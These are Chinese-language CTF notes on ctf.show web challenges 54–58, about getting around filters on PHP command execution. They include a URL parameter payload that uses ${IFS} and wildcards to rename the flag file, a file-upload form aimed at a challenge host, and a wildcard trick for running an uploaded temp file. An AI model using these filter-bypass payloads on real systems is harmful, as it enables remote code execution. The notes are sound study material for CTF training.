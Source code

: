 单引号也被过滤了，但是mv指令没被过滤
```
?c=mv${IFS}fla?.php${IFS}z.txt
?c=ls
访问z.txt即可
```

# （未做出来）web55:无字母RCE：system回显+过滤
[web题解](https://blog.csdn.net/qq_46091464/article/details/108513145)
给了空格，但是没给字母，考虑无字母RCE，做一个文件上传的表单
注意事项：URL地址和enctype的类型是from-data
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://46230c96-8291-44b8-a58c-c133ec248231.chall.ctf.show/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

这时候我们可以在这个文件上传表单中上传文件，同时注意到题目没有过滤`.`，而这个在linux下可以当做执行文件的命令`.payload`，但是现在没有上传文件的地方，所以我们先构造了一个文件上传的表单，先存储我们的`payload`文件。由于文件上传的名字我们无法控制（题目中屏蔽了字母），所以我们采用通配符的形式`。=./tmp/payload==/???/???????`这样子达到执行文件的效果

用抓包修改包达到上述效果

# （未做出来）web56: 无字母RCE:system回显+过滤字母和数字

php上传机制，上传的文件存储在/temp文件下面，当脚本执行完毕的时候就会删除
先抓个包
![[Pasted image 20250317132139.png]]

# web57：system执行，利用$(())做数学运算

![[Pasted image 20250317134615.png]]

# web58: 命令执行，禁用函数
